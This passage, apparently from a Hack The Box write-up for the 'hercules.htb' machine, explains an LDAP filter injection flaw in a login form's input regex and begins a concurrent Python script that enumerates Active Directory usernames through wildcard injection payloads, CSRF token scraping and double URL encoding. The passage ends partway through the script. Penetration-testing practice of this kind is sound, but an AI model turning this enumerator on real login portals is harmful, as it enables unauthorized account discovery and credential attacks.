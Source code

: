 **Critical Omission:** The regex blocks `!`, `\"`, `'`, `<`, `>` but fails to block:
- `*` (wildcard)
- `)` (closes LDAP filter)
- `(` (opens new condition)

This allows LDAP filter injection: `(sAMAccountName=INPUT)` becomes `(sAMAccountName=test*)(description=*))`

### High-Speed Concurrent Username Enumerator

Create `ldap_username_enum.py`:

```python
#!/usr/bin/env python3
# HIGH-SPEED CONCURRENT LDAP USERNAME ENUMERATOR
# Optimized for maximum speed with parallel BFS traversal

import asyncio
import httpx
import re
from collections import deque
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://hercules.htb"
LOGIN_PATH = "/Login"
LOGIN_PAGE = "/login"
TARGET_URL = BASE + LOGIN_PATH
VERIFY_TLS = False
USERNAME_FIELD = "Username"
PASSWORD_FIELD = "Password"
REMEMBER_FIELD = "RememberMe"
CSRF_FORM_FIELD = "__RequestVerificationToken"

PASSWORD_TO_SEND = "test"
DOUBLE_URL_ENCODE = True

# HIGH PERFORMANCE SETTINGS
CONCURRENT_TESTS = 20           # Test 20 usernames simultaneously
MAX_SEMAPHORE = 25              # Global connection limit
REQUEST_DELAY = 0.05            # Minimal delay between requests
BATCH_DELAY = 0.1               # Delay between batches

# Optimized charset - prioritize common starting letters
CHARSET = list("abcdefghijklmnopqrstuvwxyz0123456789.-_@")
PRIORITY_CHARS = list("abcdefghjklmnprstw")  # Common AD username starts

MAX_USERNAME_LENGTH = 64
SUCCESS_INDICATOR = "Login attempt failed"

TOKEN_RE = re.compile(
    r'<input[^>]*name=["\']__RequestVerificationToken["\'][^>]*value=["\']([^"\']+)["\']',
    re.IGNORECASE | re.DOTALL
)

class HighSpeedUsernameEnumerator:
    def __init__(self):
        self.valid_users = set()
        self.request_count = 0
        self.start_time = time.time()
        self.global_semaphore = asyncio.Semaphore(MAX_SEMAPHORE)
        
    def prepare_username_payload(self, username: str, use_wildcard: bool = False) -> str:
        """Prepare username for LDAP injection"""
```